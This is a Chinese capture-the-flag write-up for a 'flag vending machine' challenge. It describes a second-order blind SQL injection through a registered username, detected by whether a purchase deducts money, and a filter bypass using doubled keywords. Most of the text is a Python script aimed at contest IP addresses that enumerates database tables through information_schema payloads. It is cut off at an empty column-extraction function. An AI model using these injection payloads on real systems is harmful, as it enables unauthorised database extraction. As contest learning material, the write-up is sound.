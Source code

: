## flag vending machine ##

有一个迷惑的id，但是实际上没有任何卵用，感觉是完全无脑case过去的，所以看看别的点。

注册ddog'，在购买东西的时候显示购买成功，但是没有成功扣款。

那应该是存在二次注入，那我可以通过注册账号，然后购买东西，看钱是否减少，来判断条件的真假，这样可以构造出一个二次盲注。

其中还有一点儿过滤，可以通过复写绕过，可以直接通过注册来看名字判断这个问题，加在脚本里。

```
# coding=utf-8

import requests
import random
import hashlib
import time
from random import Random

s = requests.Session()
# url = 'http://106.75.107.53:8888/'
# url = 'http://120.132.55.92:8888/'
url = 'http://120.132.20.183:8888/'
tables_count_num = 0


def get_tables(url):
	
	for i in xrange(50):
		payload = "ddog123' or ((SELECT COUNT(*) from information_schema.tables WHERE table_schema = DATABASE())="+str(i)+")#"

		if get_data(payload):
			print "[*] tables_number: "+str(i)
			tables_number = i
			break

	for j in range(0,tables_number):
		for i in xrange(50):
			payload = "ddog123' or ((SELECT length(table_name) from information_schema.tables WHERE table_schema = DATABASE() limit 1 offset "+str(j)+")="+str(i)+")#"

			if get_data(payload):
				print "[*] tables_length: "+str(i)
				tables_length = i
				break

		tables = ""
		
		for i in range(1,tables_length+1):
			for k in range(30,128):
				payload = "ddog123' or (SELECT ascii(mid(((SELECT table_name from information_schema.tables WHERE table_schema = DATABASE() limit 1 offset "+str(j)+"))from("+str(i)+")))="+str(k+1)+")#"

				# print payload
				if get_data(payload):
					tables += chr(k+1)
					print "[*] tables: "+tables
					break

		print "[*] tables: " + tables


def get_colums(url):
```

  [1]: http://static.zybuluo.com/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: http://static.zybuluo.com/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png